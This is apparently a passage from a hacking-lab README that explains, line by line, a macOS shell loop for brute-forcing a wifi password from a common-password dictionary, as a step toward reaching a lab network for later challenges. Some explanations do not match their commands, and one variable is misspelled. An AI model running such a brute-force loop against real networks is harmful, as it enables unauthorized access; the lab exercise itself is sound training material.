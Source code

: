 ```cd HackingLab```
    - [x] Find a command to use to connect to wifi networks 
    - [x] Figure out how to push the passwords from the dictionary file into the wifi connection command
    - [x] Launch the attack and Discover the credential
    - [ ] Discovering the credential

settings         |  wifi
:-------------------------:|:-------------------------:
``` while read passwordfilevalue; do ```| We're going to write a "while" loop that will open the password list one row at a time. 
``` networksetup -setairportnetwork en0 🌹☠️🌹 "$passwordfilevalue" ``` | pass the word that's in the current row into a shell variable called passwordfilevalue. 
``` ifconfig en0 | grep inet ``` | run a command "ifconfig en0 | grep en0", which will help us discover if our password was correct.  If there is an inet value that is returned, that means we were granted an IP address, which means we our password was correct.
``` echo $passworfilevalue ``` | Finally, we print out the password value that was used during the loop so we can see what password was tried. 
``` done < 10k-most-common.txt ``` | Finally, we echo out the password value that was used during the loop so we can see what password was tried. 



So if we see an inet value return, we can see the password that worked.  In the gif below, you'll see a password which is not the password used on the full build, so you still have to go through the process yourself to hack the network. 😎


    - [x] Manually guess some passwords
    - [x] Find a dictionary
    - [x] Find a command to use to connect to wifi networks 
    - [x] Figure out how to push the passwords from the dictionary file into the wifi connection command
    - [x] Launch the attack and Discover the credential

![alt text](imgs/BruteForceLoop.gif "While Loop") 

When you've made it on to the wifi network, you're ready to start working through the challenges outlined in the challenges file.  


